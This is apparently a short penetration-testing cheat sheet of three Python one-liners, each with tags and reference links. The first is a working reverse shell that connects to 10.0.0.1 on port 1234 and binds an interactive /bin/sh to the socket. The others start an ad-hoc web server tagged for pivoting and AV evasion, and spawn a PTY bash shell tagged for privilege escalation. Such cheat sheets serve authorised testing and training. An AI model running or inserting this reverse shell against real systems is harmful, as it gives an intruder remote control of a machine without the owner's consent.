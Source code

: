 ### 1. python reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
**- linux,reverse shells,Windows,python**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 2. instant web server
```
python -m SimpleHTTPServer [PORT]
```
**- pivoting,interesting,python,av evasion**
#### References:

https://docs.python.org/2/library/simplehttpserver.html
__________
### 3. python spawn bash
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
**- python,shell,privilege escalation**
#### References:

https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
__________
